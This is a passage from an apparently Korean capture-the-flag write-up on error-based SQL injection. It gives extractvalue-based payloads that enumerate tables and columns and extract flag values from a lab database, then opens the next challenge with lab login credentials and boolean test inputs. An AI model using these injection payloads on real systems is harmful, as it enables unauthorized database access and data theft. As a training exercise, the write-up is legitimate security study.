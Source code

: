 **실행 결과:**

![sqli4 database](/assets/web-screenshots/blind-error-based-sqli/sqli4_database.png)

> 데이터베이스 이름: **sqli_2_1**

이제 데이터베이스 이름을 바탕으로, **테이블명부터 컬럼, 최종 데이터**까지 차례로 추출해볼 것이다.

```sql
' or extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='sqli_2_1' limit 0,1))) and '1'='1
```

> 테이블 이름: **flag_table**

이어서, 해당 테이블의 컬럼 정보도 순차적으로 추출해보자.

```sql
' or extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema='sqli_2_1' and table_name='flag_table' limit ?,1))) and '1'='1
```

컬럼을 추출해본 결과, 테이블에는 `flag1`, `flag2`, `...`, `flag8`과 같은 이름의 컬럼들이 존재하였다.

이제 각 컬럼을 하나씩 조회하여, **실제 데이터 값을 추출**해보겠다.

```sql
' or extractvalue(1,concat(0x7e,(select flag1 from flag_table limit 0,1))) and '1'='1
```

위 페이로드를 활용하여 `flag1`부터 `flag8`까지의 컬럼 값을 순차적으로 조회하였다.
그 결과, **각 컬럼에 저장된 값들을 조합하여 최종 플래그를 완성**할 수 있었다.

---

### SQL Injection 5 (Error Based SQLI)

이번 문제 역시 이전과 동일한 로그인 화면으로 시작된다.

- 계정: normaltic / 1234

로그인에 성공할 경우에는 `302 리다이렉션`, 실패할 경우에는 `200 OK 응답`이 반환된다.

이를 기반으로, SQL 인젝션이 가능한지 테스트를 진행해보겠다.

```sql
normaltic' and '1'='1
normaltic' and '1'='2
```

